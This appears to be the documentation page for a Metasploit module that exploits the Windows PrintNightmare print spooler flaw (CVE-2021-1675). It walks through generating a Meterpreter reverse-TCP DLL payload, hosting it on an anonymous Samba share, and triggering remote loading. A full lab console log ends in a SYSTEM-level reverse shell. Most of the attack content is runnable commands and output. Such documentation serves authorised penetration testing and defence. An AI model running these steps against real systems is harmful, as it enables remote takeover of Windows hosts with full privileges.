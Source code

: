 ## Vulnerable Application
The print spooler service can be abused by an authenticated remote attacker to load a DLL through a crafted DCERPC
request, resulting in remote code execution as NT AUTHORITY\SYSTEM.

## Verification Steps

1. Optionally, create a DLL payload that the target will execute
    1. From msfconsole
    1. Do: `use payload/windows/x64/meterpreter/reverse_tcp`
    1. Set the `LHOST` and `LPORT` values
    1. Do: `to_handler` to start the payload handler
    1. Do: `generate -f dll -o /path/to/save/the/payload.dll` to generate the DLL file
1. Start an SMB server with anonymous read access containing the DLL payload.
    1. `sudo apt-get install -y samba samba-common`
    1. `sudo cp -pf /etc/samba/smb.conf /etc/samba/smb.conf.bak` to backup your existing config.
    1. `sudo mkdir /var/public`
    1. Add the following into the end of the `/etc/samba/smb.conf` file:
    
        ```
        [public]
        comment = Public Directories
        path = /var/public
        guest ok = Yes
        ```
       
    1. Restart Samba with `sudo service smbd restart`.
1. Generate your DLL and place the file under `/var/public`.

    ```
    msf6 auxiliary(admin/dcerpc/cve_2021_1675_printnightmare) > use payload/windows/x64/meterpreter/reverse_tcp
    msf6 payload(windows/x64/meterpreter/reverse_tcp) > show options

    Module options (payload/windows/x64/meterpreter/reverse_tcp):

    Name      Current Setting  Required  Description
    ----      ---------------  --------  -----------
    EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
    LHOST                      yes       The listen address (an interface may be specified)
    LPORT     4444             yes       The listen port

    msf6 payload(windows/x64/meterpreter/reverse_tcp) > set LHOST 192.168.224.128
    LHOST => 192.168.224.128
    msf6 payload(windows/x64/meterpreter/reverse_tcp) > set LPORT 8822
    LPORT => 8822
    msf6 payload(windows/x64/meterpreter/reverse_tcp) > to_handler
    [*] Payload Handler Started as Job 0

    [*] Started reverse TCP handler on 192.168.224.128:8822
    msf6 payload(windows/x64/meterpreter/reverse_tcp) > generate -f dll -o /home/gwillcox/payload.dll
    [*] Writing 8704 bytes to /home/gwillcox/payload.dll...
    msf6 payload(windows/x64/meterpreter/reverse_tcp) > sudo mv /home/gwillcox/payload.dll /var/public/payload.dll
    ```

1. Exploit the vulnerability to force the target to load the DLL payload
    1. From msfconsole
    1. Do: `use auxiliary/admin/dcerpc/cve_2021_1675_printnightmare`
    1. Set the `RHOSTS` values
    1. Set the `SMBUser` and `SMBPass` values
    1. Set the `DLL_PATH` value to the UNC path to the server and payload DLL like `\\192.168.0.2\public\payload.dll`
    1. Run the module

## Options

### DLL_PATH
The path to the DLL that the server should load. This path can either be a network-based UNC path or a local path on the
remote target. The DLL will be copied to the remote server using the same filename.

If the DLL is a payload generated by Metasploit, know that only a single session can be active per target at any time
due to how these payloads are synchronized. If the session closes, dies, or the user migrates to a new process, the same
DLL can be used again otherwise a new DLL will need to be created for each simultaneously active session. One DLL can
however be used to establish multiple sessions simultaneously so long as each session is on a different target.

If this value is a UNC path, it will automatically be converted to use the `\??\UNC\` prefix instead of `\\` to bypass
the path check in certain scenarios.

### ReconnectDelay
*This is an advanced option.*

A delay in seconds to wait before reconnecting to the named pipe.

While exploiting the vulnerability, it is common for the named pipe connection to be closed. This option specifies a
delay in seconds to wait before reconnecting to the service. A delay that is too short may fail with
`STATUS_OBJECT_NAME_NOT_FOUND`.

## Scenarios

### Windows Server 2019

First, generate the payload DLL or use an existing one. Copy it to the SMB server and note the UNC path. Any DLL can be
used but the architecture must match the host. This example generates a 64-bit Meterpreter payload using the Reverse TCP
stager.

```
msf6 > use payload/windows/x64/meterpreter/reverse_tcp
msf6 payload(windows/x64/meterpreter/reverse_tcp) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 payload(windows/x64/meterpreter/reverse_tcp) > to_handler
[*] Payload Handler Started as Job 0
msf6 payload(windows/x64/meterpreter/reverse_tcp) >
[*] Started reverse TCP handler on 192.168.159.128:4444

msf6 payload(windows/x64/meterpreter/reverse_tcp) > generate -f dll -o /tmp/reverse_tcp.x64.dll
[*] Writing 8704 bytes to /tmp/reverse_tcp.x64.dll...
msf6 payload(windows/x64/meterpreter/reverse_tcp) >
```

Next, use the module to trigger loading the DLL. Note that when setting the `DLL_PATH` option, the `\` characters are
doubled so that they are escaped on the command line.

```
msf6 payload(windows/x64/meterpreter/reverse_tcp) > use auxiliary/admin/dcerpc/cve_2021_1675_printnightmare
msf6 auxiliary(admin/dcerpc/cve_2021_1675_printnightmare) > set DLL_PATH \\\\192.168.159.128\\public\\reverse_tcp.x64.dll
DLL_PATH => \\192.168.159.128\public\reverse_tcp.x64.dll
msf6 auxiliary(admin/dcerpc/cve_2021_1675_printnightmare) > set RHOSTS 192.168.159.96
RHOSTS => 192.168.159.96
msf6 auxiliary(admin/dcerpc/cve_2021_1675_printnightmare) > set SMBUSER aliddle
SMBUSER => aliddle
msf6 auxiliary(admin/dcerpc/cve_2021_1675_printnightmare) > set SMBPASS Password1
SMBPASS => Password1
msf6 auxiliary(admin/dcerpc/cve_2021_1675_printnightmare) > run
[*] Running module against 192.168.159.96

[*] 192.168.159.96:445 - Target environment: Windows v10.0.17763 (x64)
[*] 192.168.159.96:445 - Binding to 12345678-1234-abcd-ef00-0123456789ab:1.0@ncacn_np:192.168.159.96[\spoolss] ...
[*] 192.168.159.96:445 - Bound to 12345678-1234-abcd-ef00-0123456789ab:1.0@ncacn_np:192.168.159.96[\spoolss] ...
[*] 192.168.159.96:445 - Enumerating the installed printer drivers...
[*] 192.168.159.96:445 - Using driver path: C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_2097e02ea77b432e\Amd64\UNIDRV.DLL
[*] 192.168.159.96:445 - Using directory: C:\Windows\system32\spool\DRIVERS\x64
[*] 192.168.159.96:445 - RpcAddPrinterDriverEx response 0 ERROR_SUCCESS (The operation completed successfully.)
[*] Sending stage (200262 bytes) to 192.168.159.96
[*] 192.168.159.96:445 - Error STATUS_PIPE_BROKEN (The pipe operation has failed because the other end of the pipe has been closed.)
[-] 192.168.159.96:445 - Error STATUS_PIPE_CLOSING (The specified named pipe is in the closing state.)
[-] 192.168.159.96:445 - Error STATUS_PIPE_CLOSING (The specified named pipe is in the closing state.)
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/cve_2021_1675_printnightmare) > [*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.96:49732) at 2021-07-02 15:59:30 -0400

msf6 auxiliary(admin/dcerpc/cve_2021_1675_printnightmare) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-3MSP8K2LCGC
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : MSFLAB
Logged On Users : 9
Meterpreter     : x64/windows
meterpreter >
```
